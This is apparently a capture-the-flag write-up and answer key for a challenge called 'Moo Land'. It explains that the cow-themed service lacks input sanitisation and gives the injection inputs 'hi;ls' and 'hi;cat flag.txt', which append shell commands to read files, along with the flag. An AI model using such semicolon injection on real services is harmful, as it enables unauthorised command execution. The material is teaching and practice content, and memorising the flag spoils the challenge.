 # Moo Land

## Question Text

I found some talking cows!

`nc <server> <port> `

Created by PotatoDrug

## Setup Guide
Run `./build.sh`

## Solution
There is no input sanitization at all so you can execute whatever commands you want by using a semicolon.

`hi;ls` will show you flag.txt, `hi;cat flag.txt` will give you the flag.

**Flag:** GCTF{wh4t\_d0es\_the\_c0w\_s4y}